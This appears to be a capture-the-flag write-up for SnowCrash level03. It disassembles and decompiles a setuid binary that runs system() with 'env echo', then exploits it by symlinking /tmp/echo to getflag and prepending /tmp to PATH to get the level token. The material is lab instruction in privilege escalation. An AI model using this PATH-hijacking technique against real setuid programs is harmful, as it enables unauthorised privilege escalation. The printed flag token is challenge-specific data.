 # level03

For level 3 we are given a binary which doesn't seem to do much
```bash
level03@SnowCrash:~$ ls
level03
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$ 
```

However, disassembling the main function gives us more than enough to work with
```bash
level03@SnowCrash:~$ gdb -batch -ex 'file level03' -ex 'disassemble main'
Dump of assembler code for function main:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     and    $0xfffffff0,%esp
   0x080484aa <+6>:     sub    $0x20,%esp
   0x080484ad <+9>:     call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>:    mov    %eax,0x18(%esp)
   0x080484b6 <+18>:    call   0x8048390 <geteuid@plt>
   0x080484bb <+23>:    mov    %eax,0x1c(%esp)
   0x080484bf <+27>:    mov    0x18(%esp),%eax
   0x080484c3 <+31>:    mov    %eax,0x8(%esp)
   0x080484c7 <+35>:    mov    0x18(%esp),%eax
   0x080484cb <+39>:    mov    %eax,0x4(%esp)
   0x080484cf <+43>:    mov    0x18(%esp),%eax
   0x080484d3 <+47>:    mov    %eax,(%esp)
   0x080484d6 <+50>:    call   0x80483e0 <setresgid@plt>
   0x080484db <+55>:    mov    0x1c(%esp),%eax
   0x080484df <+59>:    mov    %eax,0x8(%esp)
   0x080484e3 <+63>:    mov    0x1c(%esp),%eax
   0x080484e7 <+67>:    mov    %eax,0x4(%esp)
   0x080484eb <+71>:    mov    0x1c(%esp),%eax
   0x080484ef <+75>:    mov    %eax,(%esp)
   0x080484f2 <+78>:    call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>:    movl   $0x80485e0,(%esp)
   0x080484fe <+90>:    call   0x80483b0 <system@plt>
   0x08048503 <+95>:    leave
   0x08048504 <+96>:    ret
End of assembler dump.
```

The call to system is reading a string at 0x80483b0
```bash
level03@SnowCrash:~$ gdb -batch -ex 'file level03' -ex 'x/s 0x80485e0'
0x80485e0:       "/usr/bin/env echo Exploit me"
```

Decompiling the binary through Ghidra gives some more readable output, which I manually cleaned up.
```c
int main()
{
    gid_t gid = getegid();
    uid_t uid = geteuid();
    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);
    return system("/usr/bin/env echo Exploit me");
}
```

By creating our own symbolic link to any binary and inserting `/tmp` into the PATH, we can execute whatever we want
Symbolic links are rather tricky to do securely, especially when `setuid` and friends are involved
```bash
level03@SnowCrash:~$ ln -s /bin/getflag /tmp/echo
level03@SnowCrash:~$ env PATH="/tmp:$PATH" ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$ rm -f /tmp/echo
level03@SnowCrash:~$ su level04
Password: qi0maab88jeaj46qoumi7maus
level04@SnowCrash:~$
```
